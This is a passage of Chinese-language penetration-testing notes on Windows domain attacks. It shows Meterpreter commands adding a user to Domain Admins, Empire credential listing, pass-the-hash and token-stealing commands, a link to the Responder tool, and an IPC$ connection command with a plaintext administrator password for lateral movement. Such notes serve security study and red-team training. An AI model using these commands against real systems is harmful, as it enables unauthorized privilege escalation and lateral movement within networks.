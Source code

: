 - meterpreter

```
add_user shuteer abc123 -h 1.1.1.2
add_group_user "Domain Admins" shuteer -h 1.1.1.2
```

#### Empire下的令牌窃取

1.creds

- 查看密码

```
creds 查看列出来的密码
```

- 窃取令牌

```
pth ID (ID为credID)
```

- 查看当前进程是否有域用户进程窃取

```
ps 查看进程
steal_token  12004 获取令牌
revtoself 恢复令牌权限
```

### 无凭证条件下的权限获取

- Responder

```
https://github.com/SpiderLabs/Responder.git
```

## 域内横向移动分析及防御
### 常用windows远程连接和相关命令
#### IPC

- 建立ipc连接

```
net use \\192.168.100.190\ipc$ "Aa123456@" /user:administrator
```

- ipc$利用条件

```
（1）开启了135、445端口
（2）管理员开启了默认共享
```

- ipc$失败原因

```
（1）用户名密码错误
（2）目标没有打开ipc$默认共享
（3）不能连接135、445端口
（4）命令输入错误
```
#### 使用windows自带工具获取远程主机信息
